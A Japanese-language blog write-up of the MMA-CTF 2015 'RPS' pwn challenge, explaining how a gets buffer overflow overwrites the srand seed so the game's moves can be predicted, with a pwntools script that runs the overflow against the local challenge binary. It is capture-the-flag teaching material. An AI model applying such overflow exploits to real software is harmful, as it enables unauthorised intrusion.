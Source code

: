 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2015/mma-ctf-2015-rps/
  - /blog/2016/09/02/mma-ctf-2015-rps/
date: "2016-09-02T20:30:59+09:00"
tags: [ "ctf", "writeup", "pwn", "mmactf", "rand", "prng-prediction" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/rps-50" ]
---
```


# MMA-CTF-2015: RPS

解けず。seedを操作できていることに気付いていなかった。`srand`が見えたときに乱数予測は思い受かんだのだが、`/dev/urandom`を見て消してしまった。

bofからのropができるので、それを考えてしまっていた。
`flag.txt`を読んで書き出す処理をする部分があるのでここに飛ばしたいが、`gets`によるbofでかつ位置が`0x400a9a`なので書き込めず飛ばせない。
gadgetがあまりないので厳しく、以下なら可能だと判断したが、明らかに$50$点問題のそれではなかったのでwriteupを見た。

-   stack pivotしながらlibc baseを特定し`mmap`からの再度stack pivotでshellを取る
-   `gets`と`printf`の`%n`指定子による書き込みで`flag.txt`の読み出しアドレスを作る

## solution

buffer overflowにより`srand`のseedを操作できる。出してくる手は固定なので全勝できる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

payload = ''
payload += 'A' * 0x30 # name
payload += p64(0) # seed
assert payload.find('\n') == -1

def play(s, cont=(lambda p: None)):
    p = process('./rps')
    p.recvuntil("What's your name: ")
    p.sendline(payload)
    for i, c in enumerate(s):
        p.recvuntil('Rock? Paper? Scissors? [RPS]')
        p.sendline(c)
        p.recvline()
        if p.recvline().strip() != 'You win!!':
            p.close()
            return i
    cont(p)
    p.close()
    return len(s)

s = ''
while len(s) < 50:
    for c in 'RPS':
        t = s + c * (50 - len(s))
        l = play(t)
        s = t[ : l]
play(s, lambda p: p.recvall())
```
